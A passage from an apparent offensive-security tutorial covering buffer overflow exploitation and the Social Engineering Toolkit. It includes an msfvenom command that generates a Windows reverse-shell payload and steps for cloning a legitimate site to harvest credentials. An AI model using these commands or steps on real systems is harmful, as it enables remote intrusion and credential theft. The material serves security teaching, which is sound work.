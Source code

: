 ### 3. **Buffer Overflow Exploits**

**Overview**:
Buffer overflow exploits take advantage of poorly written code that allows more data to be written to a buffer (a temporary data storage area) than it can hold. This overflow can overwrite adjacent memory, potentially leading to arbitrary code execution.

**Tools for Crafting Buffer Overflows**:

- **Immunity Debugger**: A powerful tool for analyzing and exploiting buffer overflow vulnerabilities on Windows.
- **gdb**: The GNU Debugger, commonly used for analyzing and debugging applications on Unix-like systems.
- **msfvenom**: A tool within Metasploit for generating shellcode payloads that can be used in buffer overflow exploits.

**Crafting a Simple Buffer Overflow Exploit**:

1. **Identify the Vulnerability**:
   - Use a fuzzing tool or manual testing to find inputs that cause the application to crash.

2. **Analyze the Crash**:
   - Use a debugger like Immunity Debugger or gdb to analyze the crash and identify the offset where the overflow occurs.

3. **Create the Exploit**:
   - Use `msfvenom` to generate shellcode:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=<your IP> LPORT=<your port> -f c
   ```

   - Insert the shellcode into your exploit script, replacing the vulnerable input with a crafted payload.

4. **Execute the Exploit**:
   - Run your exploit against the vulnerable application to gain control.

### 4. **Social Engineering Toolkit (SET)**

**Overview**:
While traditionally associated with social engineering attacks, SET can also be used to deliver exploits through phishing emails or malicious websites. It automates many tasks involved in exploiting human vulnerabilities.

**Using SET for Exploitation**:

1. **Launch SET**:

   ```bash
   sudo setoolkit
   ```

2. **Choose an Attack Vector**:
   - For example, choose “Social-Engineering Attacks” > “Website Attack Vectors” > “Credential Harvester Attack Method”.

3. **Configure the Exploit**:
   - Set up a malicious website that clones a legitimate site. When the target enters their credentials, SET captures them.
